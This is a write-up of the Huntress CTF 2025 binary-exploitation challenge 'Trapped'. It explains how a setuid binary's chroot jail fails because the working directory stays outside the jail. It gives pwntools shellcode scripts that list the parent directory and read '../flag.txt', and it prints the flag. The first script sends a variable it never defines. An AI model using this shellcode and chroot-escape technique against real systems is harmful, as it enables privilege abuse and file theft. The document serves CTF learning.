



# Huntress CTF 2025 - ⚒️ Trapped  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** ⚒️ Trapped  
**Challenge prompt:**  
> Well... I'm trapped. Feels like I'm in jail. Can you get the flag?

```
NOTE

The flag is in the root directory at "/flag.txt"
```

```
CAUTION

This challenge intentionally has no browser-based connection. You must use the VPN connection to access this challenge, listening on port 9999. Please use the challenge IP address as the host to connect to with netcat.
```

```
nc $CHALLENGE_IP_ADDRESS 9999
```

**Challenge category:** Binary Exploitation  
**Challenge points:** 10

* * *  

## Steps to solve  

In this challenge we were given `trapped` binary and access to the challenge running trapped on port 9999.

Initial analysis with `file`:

```
$ file trapped
trapped: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=228ce9677401d18ae2c293cb06b7e3d5478c45a7, for GNU/Linux 3.2.0, not stripped
```

Next, I proceeded to the decompilation using Ghidra:



Based on the above visible source code, we can describe several sections:

- **Variables declaration**
- **Initial setup**: The program creates a temporary directory using `mkdtemp()` with pattern `/tmp/jail-XXXXXX` to serve as a chroot jail. It elevates privileges by calling `setreuid(geteuid(), 0xffffffff)` to set the real UID to the effective UID while keeping the effective UID unchanged
- **Wait for input and filter**: Program awaits user input, and if it contains "flag", then "Cannot open flag based files" error message is shown
- **Jail setup**: If the filter was not trigerred, program calls `chroot()` on temporary directory (e.g. `/tmp/jail-a1b2c3`). From this point on, the path `/` points to `/tmp/jail-a1b2c3`
- **Exec memory mapping**: The program maps executable memory at address `0x1337000` using `mmap()` (https://www.man7.org/linux/man-pages/man2/mmap.2.html) with permissions `7 (PROT_READ | PROT_WRITE | PROT_EXEC)` and flags `0x22 (MAP_PRIVATE | MAP_ANONYMOUS)`​. It then reads up to 4096 bytes of user input via `read()` and executes it by calling the function pointer `(*__buf)()`

The flaw in the logic is as follows - the process's CWD is not affected by chroot. It remains in the directory where the binary was originally executed (e.g. `/ctf/`). This creates a discrepancy: the process's root is inside the jail, but its "current location" is outside.

Additionally, the logic of the application executes whatever was provided by the user (After "What would you like me to run next?" message) in executable memory at a fixed, known address (0x1337000) - we could easily provide shellcode here and program would happily execute it!

---

### Sidenote

Challenge description mentioned `The flag is in the root directory at "/flag.txt"` - this note made me look for the flag in `/root/flag.txt` location - which failed and caused me to lose SO MUCH time, that I would love to forget this fact...

---

To be sure about the contents of the directory one level above, I prepared this shellcode:

```python
from pwn import *

# Set the context for amd64 architecture
context.arch = 'amd64'
context.log_level = 'debug'

shellcode = asm('''
    /* Open parent directory "../" */
    xor rax, rax
    push rax            /* Push a null qword for string termination */
    mov eax, 0x2f2e2e   /* Move the reversed string "../" into eax */
    push rax            /* Push the string onto the stack */
    mov rdi, rsp        /* rdi now points to the string "../" */
    xor rsi, rsi        /* O_RDONLY */
    mov rax, 2          /* open syscall number */
    syscall

    /* getdents64(fd, buf, count) - syscall 217 */
    mov rdi, rax        /* fd from the open call */
    sub rsp, 0x1000     /* Allocate a buffer on the stack */
    mov rsi, rsp        /* rsi points to the buffer */
    mov rdx, 0x1000     /* Buffer size */
    mov rax, 217        /* getdents64 syscall number */
    syscall

    /* write the directory listing to stdout */
    mov rdx, rax        /* Number of bytes read by getdents64 */
    mov rax, 1          /* write syscall number */
    mov rdi, 1          /* stdout file descriptor */
    /* rsi still points to the buffer with directory entries */
    syscall

    /* exit */
    mov rax, 60         /* exit syscall number */
    xor rdi, rdi        /* Exit code 0 */
    syscall
''')

#p = process(['nc', '10.1.1.34', '9999'])
p = remote('10.1.1.34', '9999')
#p = process('./trapped')
p.recvuntil(b'open?')
p.sendline(b'nothing')
p.recvuntil(b'next?')
p.sendline(final_shellcode)
#p.sendlineafter(b'What would you like me to run next? \n', final_shellcode)
p.interactive()
```

When executed, I discovered that the `flag.txt` is not in `/root` directory... but rather in `/` - root of the partition:



With that said - solution to this challenge was MUCH easier:

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

# 1. Read the flag file from the real root directory.
shellcode = shellcraft.cat('../flag.txt')

# 2. Assemble the shellcode into machine code
final_shellcode = asm(shellcode)

#p = process(['nc', '10.1.1.34', '9999'])
p = remote('10.1.1.34', '9999')
#p = process('./trapped')
p.recvuntil(b'open?')
p.sendline(b'nothing')
p.recvuntil(b'next?')
p.sendline(final_shellcode)
#p.sendlineafter(b'What would you like me to run next? \n', final_shellcode)
p.interactive()
```



**FLAG:** flag{5f8c037a7ca4cb89c80174bca5eaf531} 
